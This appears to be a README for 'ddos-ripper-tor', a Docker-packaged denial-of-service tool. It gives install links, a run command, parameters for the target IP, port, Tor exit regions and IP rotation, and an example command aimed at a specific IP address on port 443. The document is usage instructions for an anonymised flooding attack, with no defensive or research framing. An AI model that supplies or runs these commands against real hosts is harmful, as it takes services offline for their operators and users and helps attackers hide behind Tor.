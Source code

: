 # Requirements

## Install Docker

- [Windows](https://docs.docker.com/desktop/windows/install)
- [Linux](https://docs.docker.com/engine/install/ubuntu/)
- [Mac](https://docs.docker.com/desktop/mac/install)

# Usage

```docker run --rm -it zengraf/ddos-ripper-tor -s [IP address]```

## Parameters

- `-r <refresh>` - Tor IP refresh in seconds
- `-e <regions>` - Tor exit node regions separated by comma
- `-s <server>` - server IP address
- `-p <port>` - server port
- `-t <turbo>` - turbo

## Example

```docker run --rm -it zengraf/ddos-ripper-tor -e ru,by -s 194.54.14.139 -p 443```
